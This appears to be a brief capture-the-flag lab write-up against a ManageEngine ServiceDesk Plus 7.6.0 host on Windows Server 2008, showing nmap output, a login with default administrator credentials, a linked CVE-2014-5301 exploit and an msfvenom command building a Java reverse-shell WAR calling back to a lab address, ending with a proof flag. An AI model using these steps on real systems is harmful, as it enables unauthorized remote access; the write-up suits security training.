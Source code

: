 ## IP

```IP
192.168.57.43
```

## NMAP TCP

```nmap-helpdesk
??$ nmap -sC -sV 192.168.57.43 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-28 14:51 UTC
Nmap scan report for 192.168.57.43
Host is up (0.00077s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-server-header: Apache-Coyote/1.1
|_http-title: ManageEngine ServiceDesk Plus
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-04-28T07:51:37-07:00
| smb2-time: 
|   date: 2024-04-28T14:51:37
|_  start_date: 2024-04-28T14:49:58
|_clock-skew: mean: 2h19m59s, deviation: 4h02m29s, median: 0s
|_nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:bf:6c:ef (VMware)
```


## 8080

ManageEngine Service Desk Plus version 
`Your Version 	: 7.6.0 Build 7601`

Default credentials

```ManageEngine-Default-Creds
administrator
administrator
```

Logged In

[CVE2014-5301](https://raw.githubusercontent.com/PeterSufliarsky/exploits/master/CVE-2014-5301.py) identified

Exploit to get shell

```war-reverse-tcp-msfvenom
msfvenom -p java/shell_reverse_tcp LHOST=192.168.49.57 LPORT=9002 -f war -o shell.war
```

Navigated to Desktop

proof: `aed6a5ec639b3a90c13ed1517017ddb6`

==DONE==